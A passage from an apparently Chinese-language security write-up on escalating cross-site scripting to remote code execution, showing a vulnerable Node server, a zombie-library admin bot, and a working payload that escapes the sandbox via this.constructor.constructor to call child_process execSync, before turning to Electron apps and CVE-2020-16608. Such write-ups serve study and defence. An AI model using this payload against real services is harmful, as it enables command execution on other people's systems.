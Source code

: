 ```plain
        console.log("write error")
    });
    res.redirect('/view');
  });

app.listen(80, '0.0.0.0');
```

```plain
bot.js
const zombie = require("zombie")

exports.visit = async function () {
    const browser = new zombie ({
        waitDuration: 5*1000,
        localAddress: 0 
   })

    browser.setCookie({ name: 'admin', domain: '127.0.0.1', path:'/', httpOnly: 'true'})

    browser.visit("http://127.0.0.1/view",function() {
        console.log("Visited: ", "http://127.0.0.1/view")
})    
}
```

在 bot.js 里面里面使用了 zombie 这个库，并且通读代码，可以在 data.html 内容可控

```plain
<script>document.write(this.constructor.constructor("return(global.process.mainModule.constructor._load('child_process').execSync('ls / > data.html').toString())")());</script>
```

我们写一个 load child\_process 的链子即可

通过以上的几个案例不难看到这种在真实场景利用率可能会因为种种原因变得比较低

### xss2rce 今生

由于 electron 框架的提出，作为一个可以跨平台使用的桌面程序，而且以 js html 为主体，会被 chrom 渲染，大幅度的提高了他的危险性，比如经典的蚁剑 xss2rce，但因为这个洞可能大家已经看烂了，所以分析点其他的

CVE-2020–16608 是一个 markdown 编辑器

[![](assets/1707954600-fc305c7c283d952d673cb98243277203.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240203021535-0f343682-c1f7-1.png)
